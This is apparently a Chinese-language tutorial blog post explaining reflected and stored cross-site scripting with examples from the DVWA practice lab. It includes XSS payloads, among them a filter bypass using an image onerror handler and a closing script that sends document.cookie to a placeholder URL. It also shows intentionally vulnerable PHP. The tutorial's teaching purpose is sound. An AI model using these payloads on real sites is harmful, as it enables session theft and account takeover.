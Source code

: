 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      线程并发操作                 # 标题 
subtitle:   xss原理分析           #副标题
date:       2019-09-16              # 时间
author:     kevin-leak                      # 作者
header-img: img/post/android security/bg-2019-14.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - android
    - c
    - java
    - operate-system
---
```


> 永远不要相信客户端传输的数据。

几句话介绍
----------

xss 是Cross Site Scripting的缩写，跨站脚本攻击。

输入框中注入js代码，利用js代码操作浏览器数据进行攻击，分为两种情况：

- 反射式，利用邮件或者其他形式在url里面注入js代码保存到页面中，进行攻击。
- 储存式，利用类似于评论这种可以交互显示的文本，注入js，回显在页面，进行攻击。





测试环境
--------

[dvwa的在线测试靶场](http://43.247.91.228:81/security.php) 



攻击原理
--------

### 案例

dvwa low 难度的xss攻击，http://43.247.91.228:81/vulnerabilities/xss_r/?name=kk，这里是已经提交了kk

<img src="../img/post/network security/images/xss/xss_low.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"  height="100px" />

可以猜测，他应该是你输入什么就显示什么，输入下面的语句试试

（有的浏览器可能有所防护，用internet export）

```html
kk<script type="text/javascript">alert("kk");</script>
```

<img src="../img/post/network security/images/xss/xss_low_alter.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"  height="200px" />

可以很明确的知道，此时被攻击了，但如何获取信息给攻击者呢？

既然可以写入js脚本进行弹框，也能用js写其他的代码获取浏览器的其他信息。

造成这样的原因就是，**用户的输入直接被输入**



### 类别

其实本质都一样，可以区分的就是是一次攻击，还是长久性攻击



#### 反射型

##### 案例一

可能具有的防护是stript被过滤

dvwa medium难度等级

当输入，浏览器并没有产生xss攻击

```html
<img src="javascript:alert(1)">
```

再输入

```
<img src=1 onerror=alert(1) />
```

成功

<img src="../img/post/network security//images/xss/xss_low_freflected.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px" height="100px"/>

源码

```php
<?php  
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // 这里进行了替换
    $name = str_replace( '<script>', '', $_GET[ 'name' ] ); 
    echo "<pre>Hello ${name}</pre>"; 
} 
?> 
```

##### payload

可以产生的攻击就好比，发一份邮件，点击访问一个连接，进行文本写入，执行js

```http
http://localhost:8001/content.html?txt=hello';alert('x')//
```



#### 存储型

存储型的攻击，就是将攻击存储到了数据库，但其他用户进行访问的时候，产生攻击。

##### 案例

dvwa 中low等级的store选项的攻击

- 先看一下是怎样的环境，类似于评论

  <img src="../img/post/network security//images/xss/xss_low_store_0.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px" />

- 输入payload

  ```html
  name：pp
  message：<img src=x onerror=alert(1)>
  ```

  <img src="../img/post/network security//images/xss/xss_low_store.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"/>

  可以清楚的知道，出现了xss弹框，这里就会存在攻击

- 用其他用户登入，chrome流浪器打开，发现出现弹框

  <img src="../img/post/network security//images/xss/xss_low_store_1.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px" />



##### payload

可以通过xss攻击，获取到当前浏览器的cookie，然进行冒充，下面就是payload。

```html
<script>window.open('url'+document.cookie)</script>
```